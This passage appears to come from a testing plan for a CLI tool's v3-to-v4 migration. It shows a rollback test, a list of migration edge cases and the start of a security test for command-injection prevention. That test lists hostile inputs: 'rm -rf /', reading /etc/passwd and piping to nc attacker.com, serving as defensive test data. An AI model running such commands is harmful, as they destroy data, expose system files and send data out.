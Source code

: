 ```typescript
    });

    expect(result.success).toBe(false);

    // Rollback
    await rollback({
      sourceDir: tmpDir,
      backupDir: path.join(tmpDir, '.defai-backup')
    });

    // Verify original structure restored
    const restoredContents = await fs.readdir(tmpDir);
    expect(restoredContents).toContain('.defai');
  });
});
```

### 2. Migration Edge Cases

**Test Scenarios**:
- Empty v3.x installation (no memory, no workspaces)
- Large v3.x installation (>10k memory entries, >100 workspaces)
- Custom v3.x configuration (non-standard paths, custom providers)
- Partially installed v3.x (interrupted installation)
- Multiple v3.x versions (3.0.0, 3.1.0, 3.1.5)
- Corrupted memory database
- Disk space issues during migration
- Permission errors
- Concurrent v3.x and v4.0 installations

---

## Security Testing

### 1. Input Validation Tests

**Goal**: Prevent injection attacks and malicious inputs

```typescript
// tests/security/input-validation.test.ts
import { describe, it, expect } from 'vitest';
import { runCLI } from '@tests/helpers/cli';
import { Router } from '@/core/router';

describe('Input Validation', () => {
  describe('Command Injection Prevention', () => {
    it('should reject shell metacharacters in task', async () => {
      const maliciousInputs = [
        'task; rm -rf /',
        'task && cat /etc/passwd',
        'task | nc attacker.com 4444',
        'task `whoami`',
        'task $(ls -la)',
        'task & background-task'
      ];

      for (const input of maliciousInputs) {
        const { stderr } = await runCLI(`run backend "${input}"`)
          .catch(e => e);

        expect(stderr).toContain('Invalid task format');
      }
    });

```